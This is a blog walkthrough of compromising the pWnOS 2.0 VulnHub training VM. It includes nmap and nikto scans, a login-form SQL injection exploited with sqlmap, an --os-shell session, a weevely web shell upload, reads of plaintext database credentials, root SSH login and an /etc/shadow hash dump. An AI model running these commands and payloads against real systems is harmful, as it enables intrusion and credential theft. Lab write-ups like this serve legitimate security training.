 ```yaml
---
layout: post
title: "pWnOS: 2.0"
date: 2015-05-22 08:40:50 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 2.0 (Pre-Release)](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

Nmap output:
{% codeblock %}
root@kali32:~# nmap 10.10.10.100 -sV -p-

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 14:45 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:45 (0:00:06 remaining)
Nmap scan report for 10.10.10.100
Host is up (0.00030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
MAC Address: 00:0C:29:61:0D:EB (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
{% endcodeblock %}

Nikto output:
{% codeblock %}
root@kali32:~# nikto -h 10.10.10.100
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.100
+ Target Hostname:    10.10.10.100
+ Target Port:        80
+ Start Time:         2015-04-27 14:46:59 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.17 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.3.5-1ubuntu7
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Apache/2.2.17 appears to be outdated (current is at least Apache/2.4.7). Apache 2.0.65 (final release) and 2.2.26 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /info/: This might be interesting...
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 1311031, size: 5108, mtime: Tue Aug 28 12:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /login.php: Admin login page/section found.
+ 7331 requests: 0 error(s) and 22 item(s) reported on remote host
+ End Time:           2015-04-27 14:47:09 (GMT2) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endcodeblock %}

There is a SQL injection in email, we can see an error message trying to log in (filling an email field with the single quote):
{% codeblock %}
http://10.10.10.100/login.php:

An error occurred in script '/var/www/login.php' on line 47: Query: SELECT *
FROM users WHERE email=''' AND pass='86f7e437faa5a7fce15d1ddcb9eaeaea377667b8'
AND active IS NULL 

MySQL Error: You have an error in your SQL syntax; check the
manual that corresponds to your MySQL server version for the right syntax to
use near '86f7e437faa5a7fce15d1ddcb9eaeaea377667b8' AND active IS NULL' at line 1 
{% endcodeblock %}

Using Sqlmap we dump the whole databases:
{% codeblock %}
$ sqlmap -u "http://10.10.10.100/login.php" --forms --dump-all
[ .. snip .. ]
email=test@test.com&pass=123&submit=Login&submitted=TRUE
{% endcodeblock %}

We try to crack hashes but without success in the reasonable time:
{% codeblock %}
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat mysql/user-f3649c95.csv | cut -d, -f2-3 | sed 's#,#:#' > /tmp/hashes.csv
root@kali32:~/.sqlmap/output/10.10.10.100/dump# john --format=mysql-sha1 /tmp/hashes.csv 
[ .. snip .. ]
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat ch16/users.csv 
user_id,pass,email,active,last_name,first_name,user_level,registration_date
1,c2c4b4e51d9e23c02c15702c136c3e950ba9a4af,admin@isints.com,NULL,Privett,Dan,0,2011-05-07 17:27:01
{% endcodeblock %}

With OS Shell functionality of Sqlmap (--os-shell), we was able to obtain shell with the web user privileges:
{% codeblock %}
os-shell> cat /etc/passwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
{% endcodeblock %}

As we can see, MySQL daemon is running as root (=uid 0), this is also the
reason, why we were able to write something with database user to /var/www
(owned by www-data), that's not common.

We can also upload weevely to the remote system and use it as the more sophisticated shell:
{% codeblock %}
root@kali32:~# sqlmap -u "http://10.10.10.100/login.php" --data "email=test@test.com&pass=123&submit=Login&submitted=TRUE" --file-write="/var/www/weevely.php.txt" --file-dest=/var/www/w.php
{% endcodeblock %}

We found the database credentials, however they didn't work:
{% codeblock %}
www-data@web:/var/www $ cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

That was strange, because the web application is connected. After a little more digging, we found this suspicious file:
{% codeblock %}
www-data@web:/var/www $ cat ../mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

The [blog application](http://10.10.10.100/blog/index.php) use the text files instead of MySQL. We were only
able to locate the password file, without cracking it:
{% codeblock %}
www-data@web:/var/www $ cat blog/config/password.txt
$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
{% endcodeblock %}

Using root / root@ISIntS we can finally log in via ssh as root:
{% codeblock %}
root@web:~# cat /etc/shadow 
root:$6$aO1TGdyc$XfiMyap/.QYhjIip5xxrgpO1ydlo.DQXns3fYYLt1hiH4Fp0PJP4TMoDSg3wpAFklF03dV2cUDL04YcR9bSSI/:15101:0:99999:7:::
daemon:*:15101:0:99999:7:::
bin:*:15101:0:99999:7:::
sys:*:15101:0:99999:7:::
sync:*:15101:0:99999:7:::
games:*:15101:0:99999:7:::
man:*:15101:0:99999:7:::
lp:*:15101:0:99999:7:::
mail:*:15101:0:99999:7:::
news:*:15101:0:99999:7:::
uucp:*:15101:0:99999:7:::
proxy:*:15101:0:99999:7:::
www-data:*:15101:0:99999:7:::
backup:*:15101:0:99999:7:::
list:*:15101:0:99999:7:::
irc:*:15101:0:99999:7:::
gnats:*:15101:0:99999:7:::
nobody:*:15101:0:99999:7:::
libuuid:!:15101:0:99999:7:::
syslog:*:15101:0:99999:7:::
mysql:!:15101:0:99999:7:::
sshd:*:15101:0:99999:7:::
landscape:*:15101:0:99999:7:::
dan:$6$Iu1ipXkP$F9Jdj7JNf56/UjrXgOTks3mqYO6J/ErWUtf.EWr2AT8lv6aHy3K6Ywjmd7HCUswgiEYDHMwq/aqwJToXl0ERs1:15101:0:99999:7:::
{% endcodeblock %}
